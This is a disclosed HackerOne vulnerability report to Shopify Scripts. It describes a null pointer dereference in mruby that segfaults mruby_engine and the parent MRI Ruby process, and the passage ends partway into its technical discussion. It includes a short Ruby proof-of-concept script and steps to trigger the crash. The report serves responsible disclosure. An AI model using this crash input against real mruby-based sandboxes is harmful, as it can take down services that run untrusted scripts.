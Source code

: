 # Segfault in mruby, mruby_engine and the parent MRI Ruby due to null pointer dereference

## Report Details
- **Report ID**: 181828
- **URL**: https://hackerone.com/reports/181828
- **State**: Closed
- **Severity**: high
- **Submitted**: 2016-11-12T20:25:31.821Z
- **Disclosed**: 2016-12-16T21:42:33.468Z

## Reporter
- **Username**: dkasak
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
Introduction
============

Certain valid Ruby programs are able to cause a segmentation fault in mruby through a null pointer derefence, which in turn leads to a crash in mruby_engine and the parent MRI Ruby process.

Proof of concept
================

crash.rb:
---------

    def method
        yield
    end

    method(&a &&= 0)

1. Save the above code as crash.rb
2. Run either:
   a) mruby crash.rb
   b) sandbox crash.rb
3. Both cause a segmentation fault.

Discussion
==========

Everything below assumes the latest master of the mruby repository as of Nov 12th, which is commit `88604e39ac9c25ffdad2e3f03be26516fe866038`.

The null pointer dereference itself for the above POC happens in `ext/mruby_engine/mruby/src/vm.c`, line 1266:
